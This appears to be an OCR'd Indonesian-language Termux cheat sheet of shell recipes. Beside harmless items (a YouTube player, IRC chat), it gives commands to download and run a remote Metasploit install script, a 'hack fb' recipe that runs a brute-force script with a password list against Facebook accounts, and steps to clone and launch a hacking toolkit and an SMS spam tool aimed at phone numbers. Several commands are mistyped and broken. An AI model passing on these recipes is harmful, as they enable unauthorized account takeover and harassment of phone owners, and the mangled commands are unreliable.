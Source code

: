 Cara install Metasploit di termux (No Root)
~ apt update && apt upgrade
~ apt install curl
~ curl -LO https://raw.githubusercontent.com/Hax4us/Metasploit_termux/master/metasploit.sh
~ chmod +x metasploit.sh
~ ./metasploit.sh
… Tunggu proses instalasi sekitar 30-40 menit tergantung koneksi internet …

( hack fb via termux )
$apt update
$apt upgrade
$apt install python2
$apt install python2-dev
$apt install wget
$dip2 install mechanize
$cd/sterage/emulated/0
$python2 fbbrute.py ( yg tdi di download di tunda di luar folder )
$storage/emulated/0/fassword.txt ( sama kya yang tadi di download trus tinda di luar folder )
=tinggal tunggu fassword nya muncul
Jika beruntung
*silahkan mencoba*

tool install
$ apt update && apt upgrade
$ apt install git
$ git clone https://github.com/aryanrtm/4wsectools
cd 4wsectools
chmod 777 tools
./tools

pip install mps_youtube
pip install youtube_dl
apt install mpv
mpsyt
/judul

$ pkg update && pkg upgrade
CHATTING VIA TERMUX
$ pkg install irssi
$ irssi
$ /connect chat.freenode.net
$ /nick 1235
12345 di ganti sesuai nama/nick agan
$ /join #XCAteam

100% work boom spam
apt upgrade && apt update
apt install git
git clone https://github.com/Amriez/gcospam
cd gcospam
sh install.sh
sh gco.sh
Pilih nomer yang mana ajjh
Lalu
Masukan nomer tanpa 0/62
Input bebas
Jeda default ajjhj
